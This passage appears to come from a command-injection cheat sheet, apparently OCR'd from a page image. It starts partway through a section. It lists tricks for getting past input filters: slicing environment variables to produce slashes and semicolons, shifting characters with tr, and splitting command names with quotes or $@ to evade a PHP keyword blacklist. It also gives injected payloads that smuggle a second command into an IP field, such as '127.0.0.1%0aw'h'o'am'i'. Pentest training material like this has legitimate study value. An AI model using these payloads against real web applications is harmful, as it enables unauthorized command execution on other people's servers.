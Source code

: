 `127.0.0.1${LS_COLORS:10:1}${IFS}`
## Windows
`/`
```powershell
echo %HOMEPATH:~6,-11%
```
`/`
```powershell
$env:HOMEPATH[0]
```

```powershell
$env:PROGRAMFILES[10]
```
## Character Shifting
```shell
man ascii
```

```shell
echo $(tr '!-}' '"-~'<<<[)
```
## Examples
```bash
ip=127.0.0.1%0als$IFS${PATH:0:1}home
```
# Bypassing Blacklisted Commands
## Commands Blacklist
A basic command blacklist filter in `PHP` would look like the following:
```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```
## Linux & Windows
```bash
w'h'o'am'i
```

```bash
w"h"o"am"i
```
`127.0.0.1%0aw'h'o'am'i`
## Linux Only
```bash
who$@ami
```
